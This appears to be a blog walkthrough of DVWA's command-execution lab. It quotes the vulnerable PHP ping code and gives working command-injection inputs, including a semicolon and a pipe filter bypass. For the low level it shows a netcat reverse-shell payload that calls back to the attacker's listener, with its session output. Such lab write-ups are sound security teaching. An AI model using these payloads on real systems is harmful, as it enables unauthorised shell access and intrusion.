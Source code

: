 ```yaml
---
layout: post
title: Dam Vulnerable Web App Code Execution
---
```


# DVWA Command Execution LOW


We enter an ip and then it pings it.
If we enter 10.0.2.4 it pings our ip we entered and shows us the result of the ping.


```
if( isset( $_POST[ 'submit' ] ) ) {
    $target = $_REQUEST[ 'ip' ];
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
    } else { 
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
    } 
}
```

Looking at the code we can see that it calls a php functioned called shell_exec which returns a string. 
It executes the ping command 3 times and returns the 3 ip pings back and displays it. 
There isn’t any filtering of special characters either.

This means that we can pass in 
10.0.2.4; pwd
This executes the ping command and then it executes the pwd command which prints the current working directory.

Now we can set up a reverse shell since we know we can execute commands.
First we need to find our ip on our machine.
If we do ifconfig and find the inet address which will be similar to the DVWA ip if you’re self hosting on a virtual machine. 

First we need to set up a listener so we can get the reverse shell. We set up netcat to listen on port 7667 (can be any port)
nc -vv -l -p 7667

Now we use the same exploit with the semicolon to execute the netcat command to get a reverse shell.
10.0.2.15; nc -e /bin/sh 10.0.2.15 7667

nc -vv -l -p 7667
listening on [any] 7667 ...
10.0.2.4: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.4] 44976
pwd
/var/www/dvwa/vulnerabilities/exec

We see that now we have access and can run any command.


# DVWA Command Execution MEDIUM

This time when we try to issue the ping command with a semicolon we find it doesn’t work.
```
if( isset( $_POST[ 'submit'] ) ) {
    $target = $_REQUEST[ 'ip' ];
    // Remove any of the charactars in the array (blacklist).
    $substitutions = array(
        '&&' => '',
        ';' => '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';        
    } else {     
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';        
    }
}
```

We can see that they’re filtering out the semicolon. 
Instead of using a semicolon we can use a pipe.

10.0.2.4 | pwd
﻿/var/www/dvwa/vulnerabilities/exec

Now we can do the reverse shell using the previous steps but instead of a semicolon we use a pipe |.


# DVWA Command Execution HIGH


In this one the pipe and semicolon are patched.
There isn’t any current way to get around this but we can understand how they protected against attacks.
```
if( isset( $_POST[ 'submit' ] ) ) {
    $target = $_REQUEST["ip"];   
    $target = stripslashes( $target );        
    // Split the IP into 4 octects
    $octet = explode(".", $target);    
    // Check IF each octet is an integer
    if ((is_numeric($octet[0])) && (is_numeric($octet[1])) && (is_numeric($octet[2])) 
          && (is_numeric($octet[3])) && (sizeof($octet) == 4)  ) {    
    // If all 4 octets are int's put the IP back together.
    $target = $octet[0].'.'.$octet[1].'.'.$octet[2].'.'.$octet[3];      
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) {     
            $cmd = shell_exec( 'ping  ' . $target );
            echo '<pre>'.$cmd.'</pre>';        
        } else {     
            $cmd = shell_exec( 'ping  -c 3 ' . $target );
            echo '<pre>'.$cmd.'</pre>';        
        }    
    }    
    else {
        echo '<pre>ERROR: You have entered an invalid IP</pre>';
    }        
} 
```
First it reads in the ip and strips it of slashes. Then it splits the ip into a group 4 separating it by the dot into an array. 
[10,0,2,4]
It check checks each item in the array to see if it’s numeric and that the array is only a length of 4.
It then rebuilds the ip, readds the dots and executes the ping command on it.

If we tried to run 10.0.2.4;pwd
It would be caught as [10,0,2,4;pwd] by the numeric check.


